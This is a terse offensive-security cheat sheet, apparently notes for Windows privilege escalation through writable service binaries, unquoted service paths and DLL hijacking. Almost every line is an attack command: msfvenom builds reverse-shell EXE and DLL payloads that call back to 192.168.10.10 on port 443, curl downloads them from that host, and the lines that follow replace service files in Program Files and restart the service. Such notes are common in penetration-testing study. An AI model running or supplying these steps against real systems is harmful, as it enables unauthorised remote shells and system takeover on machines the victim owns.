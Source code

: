 •         curl 192.168.10.10/rev.exe -o noman.exe

•         cp noman.exe "C:\program files\noman"

•         net start noman

### unquoted path

•         Get-UnquotedService

•         Permission check and service stop / start check

•         Msfvenom create shell and upload ( curl, iwr, certutil)

•         icacls "C:\Program Files"

•         msfvenom -p windows/shell_reverse_tcp lhost=192.168.10.10 lport=443 -f exe -o rev.exe

•         del "C:\program files\noman\noman.exe"

•         curl 192.168.10.10/rev.exe -o noman.exe

•         cp noman.exe "C:\program files\noman"

•         net start noman

### DLL Hijacking

•         Permission check and service stop / start check

•         Msfvenom create shell and upload ( curl, iwr, certutil)

•         icacls "C:\Program Files"

•         msfvenom -p windows/shell_reverse_tcp lhost=192.168.10.10 lport=443 -f dll -o rev.dll

•         del "C:\program files\noman\noman.dll"

•         curl 192.168.10.10/rev.dll -o noman.dll

•         cp noman.dll "C:\program files\noman"

•         net start noman
